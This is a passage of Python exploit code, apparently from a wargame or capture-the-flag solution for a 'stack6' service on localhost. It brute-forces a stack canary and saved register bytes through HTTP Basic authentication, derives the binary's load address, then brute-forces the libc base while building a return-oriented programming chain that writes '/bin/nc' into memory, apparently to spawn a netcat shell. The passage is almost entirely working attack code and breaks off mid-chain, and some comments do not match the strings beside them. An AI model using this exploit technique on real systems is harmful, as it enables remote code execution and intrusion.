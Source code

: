 ```lang-bash line-numbers 
		hex_byte = chr(ebx_byte)
		#print("[+] Trying: {0}{1}".format(ebx.encode("hex"), hex_byte.encode("hex")))
		credentials = base64.b64encode("stack6:{0}".format(passwd + "A"*canary_offset + canary + "B"*12 + ebx + hex_byte))
		try:
			s = socket(AF_INET, SOCK_STREAM)
			s.connect(("localhost", 20004))
			request = "GET / HTTP/1.0\r\n"
			request += "Authorization: Basic {0}\r\n".format(credentials)
			request += "\n"
			s.send(request)
			response = s.recv(1024)
			s.close()
			if "200" in response:
				ebx += hex_byte
				print("[+] Found EBX byte: " + hex(ebx_byte))
				break
		except:
			pass
print("[+] EBX found: " + ebx.encode("hex"))
base = unpack("<I", ebx)[0] - 0x4118
print("[+] Binary loaded at address: {0}".format(hex(base)))


print("[+] Bruteforcing libc base address")
for off in range(0xb7000000, 0xb8000000, 0x1000):
        p = ''
        p += pack("<I", off + 0x000d5c1f) # pop edx ; pop ecx ; pop eax ; ret
        p += "AAAA" # padding
        p += pack("<I", off + 0x001789c0) # @ .data
        p += "AAAA" # padding
        p += pack("<I", off + 0x000238df) # pop eax ; ret
        p += "////" # /usr
        p += pack("<I", off + 0x0006cc5a) # mov DWORD PTR [ecx],eax ; ret
        p += pack("<I", off + 0x000d5c1f) # pop edx ; pop ecx ; pop eax ; ret
        p += "AAAA" # padding
        p += pack("<I", off + 0x001789c4) # @ .data + 4
        p += "AAAA" # padding
        p += pack("<I", off + 0x000238df) # pop eax ; ret
        p += "/bin" # /bin
        p += pack("<I", off + 0x0006cc5a) # mov DWORD PTR [ecx],eax ; ret
        p += pack("<I", off + 0x000d5c1f) # pop edx ; pop ecx ; pop eax ; ret
        p += "AAAA" # padding
        p += pack("<I", off + 0x001789c8) # @ .data + 8
        p += "AAAA" # padding
        p += pack("<I", off + 0x000238df) # pop eax ; ret
        p += "////" # /net
        p += pack("<I", off + 0x0006cc5a) # mov DWORD PTR [ecx],eax ; ret
        p += pack("<I", off + 0x000d5c1f) # pop edx ; pop ecx ; pop eax ; ret
        p += "AAAA" # padding
        p += pack("<I", off + 0x001789cc) # @ .data + 12
        p += "AAAA" # padding
        p += pack("<I", off + 0x000238df) # pop eax ; ret
        p += "/ncA" # catA
        p += pack("<I", off + 0x0006cc5a) # mov DWORD PTR [ecx],eax ; ret
        p += pack("<I", off + 0x000d5c1f) # pop edx ; pop ecx ; pop eax ; ret
        p += "AAAA" # padding
        p += pack("<I", off + 0x001789cf) # @ .data + 15
        p += "AAAA" # padding
        p += pack("<I", off + 0x000328e0) # xor eax,eax ; ret
        p += pack("<I", off + 0x0006cc5a) # mov DWORD PTR [ecx],eax ; ret
        p += pack("<I", off + 0x000d5c1f) # pop edx ; pop ecx ; pop eax ; ret
        p += "AAAA" # padding
```